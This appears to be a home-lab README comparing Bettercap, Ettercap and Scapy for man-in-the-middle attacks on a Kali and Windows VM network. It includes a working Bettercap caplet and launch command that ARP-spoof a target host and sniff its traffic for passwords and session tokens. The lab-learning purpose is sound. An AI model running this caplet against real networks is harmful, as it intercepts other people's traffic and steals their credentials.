






**Environment**

**Kali Linux(VM):** `192.168.241.134` *NAT*

**Windows10(VM):** `192.168.241.145` *NAT*

## Bettercap

Bettercap is a **modern, flexible, and scriptable tool** for:
- Network sniffing and traffic manipulation
- Man-in-the-Middle (MITM) attacks
- Credential harvesting
- Wireless network and Bluetooth testing

It’s written in Go, making it fast, portable, and more reliable than older tools like Ettercap.

---

Bettercap is commonly used in:
- **MITM attacks** (ARP spoofing, DNS spoofing, HTTPS interception)  
- **Credential theft** (capturing passwords and tokens in transit)  
- **Reconnaissance** (discovering live hosts and services)  
- **Wireless attacks** (Wi-Fi and Bluetooth sniffing, deauth, spoofing)  
- **Red team infrastructure** (acting as a proxy or relay)  

---

### Advantages
- Modular & scriptable  
- Cross-platform (Linux, macOS, Windows, Raspberry Pi)  
- Real-time interactive UI  
- Actively maintained  
- Combines many features in one tool 

---

### Disadvantages
- Noisy (easy to detect in monitored networks)  
- Not stealthy by default  
- Learning curve for beginners  
- Can disrupt traffic if misconfigured  

---

**sniff.cap**
```
# Scans the local network to discover live hosts and services. This helps you identify who is available as a potential target.
net.probe on

# Enables full-duplex mode so traffic flows both ways (victim ↔ gateway). Without this, you would only see one side of the communication.
# If true, both the targets and the gateway will be attacked, otherwise only the target (if the router has ARP spoofing protections in place this will make the attack fail). (default=false)
set arp.spoof.fullduplex true

# Specifies the target host for the attack. Targeting a single machine is quieter and less disruptive than attacking the entire network.
set arp.spoof.targets 192.168.241.145

# Captures traffic going to and from your own attacker machine
set net.sniff.local true

# Launches the ARP spoofing attack. The victim’s ARP table is poisoned so that their traffic is redirected through your machine.
arp.spoof on

# Starts the packet sniffer. Bettercap will now log captured traffic and extract useful data such as usernames, passwords, or session tokens.
net.sniff on
```

`sudo bettercap -iface eth1 -caplet sniff.cap`

<p align="center">
    
</p>

## Ettercap

Ettercap is a **classic network security tool** designed for:
- Man-in-the-Middle (MITM) attacks
- Network protocol analysis
- Packet sniffing and filtering
- Host and network reconnaissance

It’s written in C and has been around since the early 2000s, making it one of the **first widely used MITM tools** in penetration testing and security research.

---

Ettercap is commonly used in:
- **ARP poisoning** to place the attacker between victim and gateway  
- **DNS spoofing** to redirect traffic to malicious hosts  
- **Password sniffing** for protocols like HTTP, FTP, POP, IMAP, Telnet  
- **Session hijacking** by injecting or modifying traffic  
- **Network discovery** to map hosts and services  

---

### Advantages
- Simple to use with both GUI and command-line interface  
- Supports many classic MITM techniques out of the box  
- Plugin system allows extending functionality  
- Widely documented with tutorials and community support  
- Lightweight (runs even on older systems)  

---

### Disadvantages
- Outdated compared to modern tools (less active development)  
- Limited support for newer encrypted protocols (HTTPS, TLS 1.3, modern ciphers)  
- Less stealthy and easier to detect in modern networks  
- Not as flexible or scriptable as tools like Bettercap  
- Can cause instability on networks if misused  

---

<p align="center">
    
    Capture credential
    
    Some ip address has the same MAC address
</p>

## Scapy

Scapy is a **powerful Python-based packet manipulation library** used for:
- Crafting and sending custom packets
- Sniffing, decoding, and analyzing network traffic
- Network discovery and scanning
- Exploitation and proof-of-concept attacks

Unlike Bettercap or Ettercap (which are ready-to-use tools), Scapy is more of a **framework for building your own network attack or analysis scripts**. It’s extremely flexible for both red teamers and researchers.

---

Scapy is commonly used in:
- **Custom MITM attacks** (e.g., ARP spoofing scripts, DNS poisoning)  
- **Packet crafting** for fuzzing or protocol testing  
- **Traffic sniffing** and writing custom parsers  
- **Reconnaissance** (host discovery, port scanning, traceroutes)  
- **Proof-of-concept exploits** where fine-grained packet control is required  

---

### Advantages
- Extremely flexible (you can craft packets at any OSI layer)  
- Python-based (easy to script and automate attacks/tests)  
- Great for learning how network protocols work  
- Useful for custom exploits and research beyond standard tools  
- Large community and plenty of examples online  

---

### Disadvantages
- Not a turnkey tool (requires coding and scripting skills)  
- Slower than compiled tools like Bettercap for large-scale attacks  
- No built-in fancy UI — everything is code-driven  
- Easier to make mistakes that can crash networks or hosts  
- Requires Python environment setup and dependencies  

---

### Example

#### Get MAC

<p align="center">
    
</p>

#### Fake MAC

<p align="center">
    
    
</p>

